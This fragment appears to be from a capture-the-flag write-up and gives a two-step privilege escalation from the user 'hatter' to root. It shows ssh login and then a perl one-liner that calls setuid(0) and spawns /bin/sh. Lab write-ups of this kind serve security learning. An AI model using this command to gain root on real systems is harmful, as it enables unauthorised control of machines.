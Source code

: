 Privesc hatter to root
1. ssh as hatter using hatters password (NOTE: you NEED to be fully logged in as hatter to run perl)
2. `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
